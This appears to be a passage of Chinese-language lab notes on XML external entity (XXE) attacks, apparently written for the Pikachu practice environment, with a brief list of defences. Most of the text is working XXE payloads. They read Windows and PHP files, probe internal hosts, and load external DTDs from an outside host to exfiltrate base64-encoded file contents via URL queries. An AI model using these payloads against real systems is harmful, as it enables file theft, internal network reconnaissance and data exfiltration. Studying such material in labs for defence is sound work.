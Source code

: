 ~~~shell
4、工具
5、fuzz测试（模糊测试）
# 防御
1、禁止外部实体
文件：doLogin.php--> libxml_disable_entity_loader(true)
2、system等关键字
~~~

代码：

~~~shell
# 读取文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY aaa SYSTEM "file:///C:/Windows/win.ini" >]>
<name>&aaa;</name>

#利用base64编码读取php文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/phpStudy/PHPTutorial/WWW/pikachu/vul/xxe/11.txt">]>
<name>&xxe;</name>

# 内网探测攻击
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1">]>
<name>&xxe;</name>
# 一、有回显
# 引入外部实体DTD
# eval.dtd:
<!ENTITY send SYSTEM "file:///C:/windows/win.ini">
# payload
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://172.168.20.84:7777/123.dtd">
%dtd;
]>
<name>&send;</name>
# %dtd指的是要执行上面一句话

# 二、无回显
# 1、加载外部dtd
1、xxx.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://172.168.20.84:7777/?abc=%file;'>"> %payload;
2、payload
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://172.168.20.84:7777/123.dtd">
%dtd;
%send;
]>
# 2、加载外部xml
1、xxx.xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.43.117/?
abc=%file;'>"> %payload;
#######
xxe-lab:http://172.168.20.40:8007/php_xxe/
~~~